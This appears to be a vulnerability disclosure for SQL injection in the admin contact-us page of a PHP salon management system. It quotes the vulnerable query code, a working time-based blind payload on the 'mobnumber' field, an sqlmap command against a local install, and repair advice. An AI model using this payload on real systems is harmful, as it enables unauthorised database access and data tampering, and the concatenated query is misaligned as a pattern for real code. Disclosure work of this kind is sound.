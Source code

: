 # Title: [sql-inject] in [Men-Salon-Management-System] <= [v1.0]
**BUG_Author**: [1098024193,yaklang. io]

---

## Product Information  产品信息
- **Vendor Homepage**: [link](https://phpgurukul.com/men-salon-management-system-using-php-and-mysql/)
- **Software Link**: [download-link](https://phpgurukul.com/?sdm_process_download=1&download_id=14066)
- **Affected Version**: [<= v1.0]
## Vulnerability Details
### Vulnerable Files
- /admin/contact-us.php
### Vulnerability Type
**SQL Injection Vulnerability** (CWE-89: SQL Injection)
### Root Cause
The code directly concatenates user input into SQL query strings without any parameterization or input validation, allowing attackers to inject malicious SQL code.
```php
line:18
if(isset($_POST['submit']))
  {
    $bpmsaid=$_SESSION['bpmsaid'];
     $pagetitle=$_POST['pagetitle'];
$pagedes=$_POST['pagedes'];
$email=$_POST['email'];
$mobnumber=$_POST['mobnumber'];
$timing=$_POST['timing'];
     
    $query=mysqli_query($con,"update tblpage set PageTitle='$pagetitle',Email='$email',MobileNumber='$mobnumber',Timing='$timing',PageDescription='$pagedes' where  PageType='contactus'");
    if ($query) {
    
    echo '<script>alert("Contact Us has been updated")</script>';
  }
  else
    {
      echo '<script>alert("Something Went Wrong. Please try again.")</script>';
    }
  
}
```
## Impact
- Unauthorized access to database information
- Potential exposure of sensitive information (such as user passwords)
- Possible database corruption or data manipulation
## Description
1. Vulnerability Details:
- During the security review of "Men Salon Management System",I discovered a critical SQL injection vulnerability "/admin/contact-us.php" file. This vulnerability stems from insufficient user input validation of the 'mobnumber' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.
2. Attack Payload Examples:
```bash
Parameter: mobnumber (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: pagetitle=Contact Us&email=info@gmail.com&mobnumber=7896541236' AND (SELECT 3235 FROM (SELECT(SLEEP(5)))KBOo) AND 'xfxx'='xfxx&timing=10:30 am to 8:30 pm&pagedes=                                        890,Sector 62, Gyan Sarovar, GAIL Noida(Delhi%2&submit=
```
## CodeScan
This vulnerability is found by [IRify](https://github.com/wlingze/IRify_scan/issues/ssa.to) :

![Image](/Management-System-Project-PHP/image/SQL1.png)

## Proof by the tool of Sqlmap
```bash
sqlmap  -u  "http://127.0.0.1/msmspdemo/admin/contact-us.php" --data "pagetitle=Contact+Us&email=info%40gmail.com&mobnumber=7896541236&timing=10%3A30+am+to+8%3A30+pm&pagedes=1&submit="  --dbs
```

![Image](/Management-System-Project-PHP/image/SQL2.png)+

this valnerability validation by [Yakit](https://www.yaklang.io/)

## Suggested repair

1. Use prepared statements and parameter binding:
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. Input validation and filtering:
   Strictly validate and filter user input data to ensure it conforms to the expected format.

3. Minimize database user permissions:
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. Regular security audits:
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.